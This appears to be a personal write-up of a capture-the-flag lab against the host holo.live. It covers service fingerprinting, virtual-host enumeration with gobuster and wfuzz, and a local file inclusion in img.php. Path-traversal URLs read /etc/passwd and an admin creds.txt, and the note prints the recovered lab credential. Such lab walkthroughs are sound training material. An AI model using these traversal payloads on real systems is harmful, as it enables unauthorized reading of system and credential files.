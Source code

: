 
As you can see that we are not able to load the page fully 
![[Pasted image 20240810102758.png]]

Which means that we need to add the IP address in our localhost and see the magic

```
whatweb 10.201.11.33
http://10.201.11.33 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.201.11.33], MetaGenerator[WordPress 5.5.3], Script[text/javascript], Title[holo.live], UncommonHeaders[link], WordPress[5.5.3], X-UA-Compatible[IE=edge]
```

We were able to see from the nmap and nikto scan that we are able to access the robots.txt
```
http://www.holo.live/robots.txt
```
![[Pasted image 20240810164134.png]]

```
low: /var/www/wordpress/index.php
Disallow: /var/www/wordpress/readme.html
Disallow: /var/www/wordpress/wp-activate.php
Disallow: /var/www/wordpress/wp-blog-header.php
Disallow: /var/www/wordpress/wp-config.php
Disallow: /var/www/wordpress/wp-content
Disallow: /var/www/wordpress/wp-includes
Disallow: /var/www/wordpress/wp-load.php
Disallow: /var/www/wordpress/wp-mail.php
Disallow: /var/www/wordpress/wp-signup.php
Disallow: /var/www/wordpress/xmlrpc.php
Disallow: /var/www/wordpress/license.txt
Disallow: /var/www/wordpress/upgrade
Disallow: /var/www/wordpress/wp-admin
Disallow: /var/www/wordpress/wp-comments-post.php
Disallow: /var/www/wordpress/wp-config-sample.php
Disallow: /var/www/wordpress/wp-cron.php
Disallow: /var/www/wordpress/wp-links-opml.php
Disallow: /var/www/wordpress/wp-login.php
Disallow: /var/www/wordpress/wp-settings.php
Disallow: /var/www/wordpress/wp-trackback.php
```


Let's do the next thing and for now it's Directory Bursting.
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.201.11.33 -o gobuster/vhost-sub.txt -t 2
```


https://wfuzz.readthedocs.io/en/latest/user/getting.html
```
wfuzz -u http://holo.live -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.holo.live" --hh 21456
```
![[Pasted image 20240810180924.png]]

now we have to add admin and dev and will see if we are able to get something.


Got 2 new sites
```
http://admin.holo.live/
```

```
http://dev.holo.live/
```


SO we need id and password to login for which we have to do some OSINT and see what we can find from the development site

```
http://dev.holo.live/img.php?file=images/matsuri.jpg
```
Can we find LFI here or not ?_?

Yes my hunch was right and i have taken the help of chat gpt.
![[Pasted image 20240813200130.png]]
```
http://dev.holo.live/img.php?file=../../../../etc/passwd
```
![[Pasted image 20240813200211.png]]

So we found a new site in admin 
```
http://admin.holo.live/robots.txt
```
![[Pasted image 20240813202422.png]]

So now we can give it a try if we can read the creds.txt 

```
http://dev.holo.live/img.php?file=../../../../../../../../var/www/admin/supersecretdir/creds.txt
```

Yup it worked and i got the password
```
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```
